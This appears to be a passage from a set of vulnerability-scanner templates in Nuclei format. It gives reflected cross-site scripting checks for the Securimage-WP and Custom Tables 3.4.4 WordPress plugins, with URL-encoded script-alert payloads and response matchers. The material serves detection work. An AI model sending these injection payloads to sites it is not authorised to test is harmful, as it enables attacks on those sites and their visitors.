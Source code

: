 ## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/securimage-wp/siwp_test.php/%22/%3E%3Cscript%3Ealert(1);%3C/script%3E?tested=1

### Matchers

**Type - word**

- words
  1. \<script>alert(1)\</script>
- part - body

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Custom Tables 3.4.4 - Cross-Site Scripting

## Description

- WordPress Custom Tables 3.4.4 plugin contains a cross-site scripting vulnerability via the key parameter.
- severity - high
- tags - wpscan,wordpress,xss,wp-plugin

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/custom-tables/iframe.php?s=1&key=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- words
  1. \</script>\<script>alert(document.domain)\</script>
- part - body
